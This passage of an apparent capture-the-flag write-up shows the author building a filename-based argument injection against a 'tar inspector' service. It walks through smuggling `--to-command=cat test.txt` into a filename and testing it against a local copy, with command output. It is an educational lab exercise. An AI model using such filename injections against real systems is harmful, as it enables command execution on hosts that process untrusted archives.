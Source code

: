 
So I began testing to craft an exploit! 

## Crafting the exploit

Okay so now I knew I had to create a malicious filename containing tar options in it. That way when my file got passed, it would trick the system into running something malicious using the specified tar options.

I had read a few exploits about using `checkpoint-action=ACTION`, but after a tiny bit of tinkering with it, I decided to look for a better option

I did a bit more research and came across the `--to-command=COMMMAND` parameter, and saw it did exactly what I wanted!

![to_command](/assets/tarinspector/to_command.png)

```
└─▪ tar -xvf test.tar --to-command=cat test.txt
test.txt
this is the flag
```

Okay, now I know I have the ability to run binaries on the instance hosting tar inspector. Let's test it out with my "local instance"

I created a file with the name `test.tar --to-command=cat` and ran it through

```
└─▪ python3 function.py  test.tar\ --to-command\=cat 
File changed to new filename

tar -xvf test.tar --to-command__2e39bc.tar
tar: unrecognized option '--to-command__2e39bc.tar'
Try 'tar --help' or 'tar --usage' for more information.
File change back to old name
```

Oh yeah, they append a string onto the end. Let's change it to `test.tar --to-command=cat test.txt .tar`.
That way it will split up the end of the filename.


```
└─▪ python3 function.py test.tar\ --to-command\=cat\ test.txt\ .tar 
File changed to new filename

tar -xvf test.tar --to-command=cat test.txt __29eb5d.tar
tar: test.tar: Cannot open: No such file or directory
tar: Error is not recoverable: exiting now
File change back to old name

```
